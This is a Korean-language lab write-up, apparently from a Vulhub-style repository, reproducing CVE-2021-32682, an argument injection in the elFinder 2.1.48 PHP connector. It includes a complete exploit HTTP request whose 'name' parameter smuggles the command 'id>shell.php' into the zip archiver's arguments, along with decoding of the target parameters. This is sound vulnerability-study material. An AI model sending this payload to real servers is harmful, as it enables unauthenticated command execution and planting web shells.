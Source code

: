# CVE-2021-32682

## elFinder ZIP 인수 삽입으로 인해 명령 삽입이 발생함

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자이다.

elFinder 2.1.48 및 이전 버전에서 인수 주입 취약점이 발견되었다. 이 취약점으로 인해 공격자는 최소한의 구성으로도 elFinder PHP 커넥터를 호스팅하는 서버에서 임의의 명령을 실행할 수 있다. 이 문제는 버전 2.1.59에서 패치되었다. 인증 없이 커넥터가 노출되지 않도록 주의해야 한다.

참고자료:
* https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerability
* https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
* https://xz.aliyun.com/t/10739

## 취약점 환경
elFinder 2.1.48을 시작하려면 아래 명령을 수행한다.

```
docker compose up -d
```

## Vulnerability Reproduce
먼저, 2개의 파일을 준비해야 한다. 아래와 같은 일반 텍스트 파일을 만든다.
<img src="https://github.com/mmingidan/WHS/blob/main/vulhub/make_txt.png?raw=true">


마우스 오른쪽 버튼 클릭 메뉴에서 이 파일을 ZIP 형식으로 보관하고 보관된 파일 이름을 아래와 같이 수정한다.
<img src="https://github.com/mmingidan/WHS/assets/102302841/db6212f2-a934-4a13-acc1-d506068da805">

txt 파일(a.txt)과 zip 파일(a.zip)이 모두 준비되었다.
<img src="https://github.com/mmingidan/WHS/blob/main/vulhub/file_fin.png?raw=true">



임의의 명령을 실행하기 위해서 아래와 같은 요청을 수행한다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
```

이 요청에서는 **3가지 중요한 매개변수**를 볼 수 있다.

- `name`은 임의의 명령으로 `-TvTT=id>shell.php # a.zip`을 수정할 수 있다. => `id>shell.php`
- `targets[0]`,  `l1_MS50eHQ. l1`첫 번째 저장 볼륨을 의미하며 MS50eHQbase64로 인코딩된 문자열이다. => `a.txt`
- `targets[1]`,  `l1_Mi56aXA. l1`첫 번째 저장 볼륨을 의미하며 Mi56aXAbase64로 인코딩된 문자열이다. => `a.zip`
이 요청은 오류 메시지에 응답했지만 명령이 실행되어 shell.php다음 위치에 기록되었다. `http://your-ip:8080/files/shell.php`.

<img src="https://github.com/mmingidan/WHS/blob/main/vulhub/web.png?raw=true">
